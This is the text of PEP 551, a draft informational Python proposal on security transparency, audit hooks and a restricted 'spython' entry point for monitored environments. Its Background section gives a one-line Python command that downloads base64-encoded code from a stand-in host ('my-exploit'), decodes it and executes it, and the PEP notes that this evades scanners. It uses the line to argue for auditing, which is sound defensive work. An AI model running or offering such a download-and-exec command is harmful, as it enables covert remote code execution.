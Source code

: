 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Status: Draft
Type: Informational
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig), 28-Aug-2017 (python-dev)

Status
======

This PEP is currently in the process of being split into two.

See PEP 578 for the new auditing APIs proposed for addition to the next
version of Python.

PEP 551 is now a draft informational PEP, providing guidance to those
planning to integrate Python into their secure or audited environments.

Abstract
========

This PEP describes the concept of security transparency and how it
applies to the Python runtime. Visibility into actions taken by the
runtime is invaluable in integrating Python into an otherwise secure
and/or monitored environment.

The audit hooks described in PEP-578 are an essential component in
detecting, identifying and analyzing misuse of Python. While the hooks
themselves are neutral (in that not every reported event is inherently
misuse), they provide essential context to those who are responsible
for monitoring an overall system or network. With enough transparency,
attackers are no longer able to hide.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote
or elevated code execution. However, in our modern connected world, the
more dangerous vulnerabilities are those that enable advanced persistent
threats (APTs). APTs are achieved when an attacker is able to penetrate
a network, establish their software on one or more machines, and over
time extract data or intelligence. Some APTs may make themselves known
by maliciously damaging data (e.g., `WannaCrypt
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use
a combination of traditional vulnerabilities, social engineering,
phishing (or spear-phishing), thorough network analysis, and an
understanding of misconfigured environments to establish themselves and
do their work.

The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which
events within a scripting engine are worth logging. However, given the
value of many logs events are not recognized until after an attack is
detected, it is important to capture as much as possible and filter
views rather than filtering at the source (see the No Easy Breach video
from `Further Reading`_). Events that are always of interest include
attempts to bypass auditing, attempts to load and execute code that is
not correctly signed or access-controlled, use of uncommon operating
system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in
order to detect abnormal or malicious usage. With PEP 578, the Python
runtime gains the ability to provide this. The aim of this PEP is to
assist system administrators with deploying a security transparent
version of Python that can integrate with their existing auditing and
protection systems.

On Windows, some specific features that may be integrated include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be integrated are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on
production machines is highly appealing to system administrators and
will make Python a more trustworthy dependency for application
developers.

True security transparency is not fully achievable by Python in
isolation. The runtime can audit as many events as it likes, but unless
the logs are reviewed and analyzed there is no value. Python may impose
restrictions in the name of security, but usability may suffer.
Different platforms and environments will require different
implementations of certain security features, and organizations with the
resources to fully customize their runtime should be encouraged to do
so.

Summary Recommendations
=======================

These are discussed in greater detail in later sections, but are
presented here to frame the overall discussion.

Sysadmins should provide and use an alternate entry point (besides
``python.exe`` or ``pythonX.Y``) in order to reduce surface area and
securely enable audit hooks. An example entry point is discussed below
in `Restricted Entry Point`_.

Sysadmins should use all available measures provided by their operating
system to prevent modifications to their Python installation.

Sysadmins should log everything and collect logs to a central location
as quickly as possible - avoid keeping logs on outer-ring machines.

Sysadmins should prioritize detection over prevention.



Restricted Entry Point
======================

A new entry point binary will be added, called ``spython.exe`` on
Windows and ``spythonX.Y`` on other platforms. This entry point is
intended primarily as an example, as we expect most users of this
functionality to implement their own entry point and hooks (see
`Recommendations`_). It will also be used for tests.

Source builds will build ``spython`` by default, but distributions
should not include it except as a test binary. The python.org managed
binary distributions will not include ``spython``.

**Do not accept most command-line arguments**

The ``spython`` entry point requires a script file be passed as the
first argument, and does not allow any options. This prevents arbitrary
code execution from in-memory data or non-script files (such as pickles,
which can be executed using ``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment
variables) and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it
will be used to initialize ``sys.path`` following the rules currently
described `for Windows
<https://docs.python.org/3/using/windows.html#finding-modules>`_.

When built with ``Py_DEBUG``, the ``spython`` entry point will allow a
``-i`` option with no other arguments to enter into interactive mode,
with audit messages being written to standard error rather than a file.
This is intended for testing and debugging only.

**Log security events to a file**

Before initialization, ``spython`` will set an audit hook that writes
events to a local file. By default, this file is the full path of the
process with a ``.log`` suffix, but may be overridden with the
``SPYTHONLOG`` environment variable (despite such overrides being
explicitly discouraged in `Recommendations`_).

The audit hook will also abort all ``sys.addaudithook`` events,
preventing any other hooks from being added.

**Restrict importable modules**

Also before initialization, ``spython`` will set an open-for-import
hook that validates all files opened with ``os.open_for_import``. This
implementation will require all files to have a ``.py`` suffix (thereby
blocking the use of cached bytecode), and will raise a custom audit
event ``spython.open_for_import`` containing ``(filename,
True_if_allowed)``.

On Windows, the hook will also open the file with flags that prevent any
other process from opening it with write access, which allows the hook
to perform additional validation on the contents with confidence that it
will not be modified between the check and use. Compilation will later
trigger a ``compile`` event, so there is no need to read the contents
now for AMSI, but other validation mechanisms such as DeviceGuard [4]_
should be performed here.

**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events
that use the default implementation. Overrides will not raise audit
events unless explicitly added, and so they will continue to be allowed.

Recommendations
===============

Specific recommendations are difficult to make, as the ideal
configuration for any environment will depend on the user's ability to
manage, monitor, and respond to activity on their own network. However,
many of the proposals here do not appear to be of value without deeper
illustration. This section provides recommendations using the terms
**should** (or **should not**), indicating that we consider it dangerous
to ignore the advice, and **may**, indicating that for the advice ought
to be considered for high value systems. The term **sysadmins** refers
to whoever is responsible for deploying Python throughout your network;
different organizations may have an alternative title for the
responsible people.

Sysadmins **should** build their own entry point, likely starting from
the ``spython`` source, and directly interface with the security systems
available in their environment. The more tightly integrated, the less
likely a vulnerability will be found allowing an attacker to bypass
those systems. In particular, the entry point **should not** obtain any
settings from the current environment, such as environment variables,
unless those settings are otherwise protected from modification.

Audit messages **should not** be written to a local file. The
``spython`` entry point does this for example and testing purposes. On
production machines, tools such as ETW [7]_ or auditd [12]_ that are
intended for this purpose should be used.

The default ``python`` entry point **should not** be deployed to
production machines, but could be given to developers to use and test
Python on non-production machines. Sysadmins **may** consider deploying
a less restrictive version of their entry point to developer machines,
since any system connected to your network is a potential target.
Sysadmins **may** deploy their own entry point as ``python`` to obscure
the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available
platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures
for every file in a Python deployment, ideally verified using a private
certificate. For example, Windows supports embedding signatures in
executable files and using catalogs for others, and can use DeviceGuard
[4]_ to validate signatures either automatically or using an
``open_for_import`` hook.

Sysadmins **should** log as many audited events as possible, and
**should** copy logs off of local machines frequently. Even if logs are
not being constantly monitored for suspicious activity, once an attack
is detected it is too late to enable auditing. Audit hooks **should
not** attempt to preemptively filter events, as even benign events are
useful when analyzing the progress of an attack. (Watch the "No Easy
Breach" video under `Further Reading`_ for a deeper look at this side of
things.)

Most actions **should not** be aborted if they could ever occur during
normal use or if preventing them will encourage attackers to work around
them. As described earlier, awareness is a higher priority than
prevention. Sysadmins **may** audit their Python code and abort
operations that are known to never be used deliberately.

Audit hooks **should** write events to logs before attempting to abort.
As discussed earlier, it is more important to record malicious actions
than to prevent them.

Sysadmins **should** identify correlations between events, as a change
to correlated events may indicate misuse. For example, module imports
will typically trigger the ``import`` auditing event, followed by an
``open_for_import`` call and usually a ``compile`` event. Attempts to
bypass auditing will often suppress some but not all of these events. So
if the log contains ``import`` events but not ``compile`` events,
investigation may be necessary.

The first audit hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally
abort the ``sys.addloghook`` event. The Python interface is primarily
intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry
point **may** add an audit hook that aborts the ``sys.addloghook`` event
but otherwise does nothing.

On production machines, a non-validating ``open_for_import`` hook
**may** be set in C code before ``Py_Initialize`` is called. This
prevents later code from overriding the hook, however, logging the
``setopenforexecutehandler`` event is useful since no code should ever
need to call it. Using at least the sample ``open_for_import`` hook
implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_import`` may be easily bypassed
with monkeypatching, an audit hook **should** be used to detect
attribute changes on type objects.

[TODO: more good advice; less bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] AMSI, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the
Python runtime safer for production use, and especially to James Powell
for doing much of the initial research, analysis and implementation, Lee
Holmes for invaluable insights into the info-sec field and PowerShell's
responses, and Brett Cannon for the restraining and grounding
discussions.

Copyright
=========

Copyright (c) 2017-2018 by Microsoft Corporation. This material may be
distributed only subject to the terms and conditions set forth in the
Open Publication License, v1.0 or later (the latest version is presently
available at http://www.opencontent.org/openpub/).

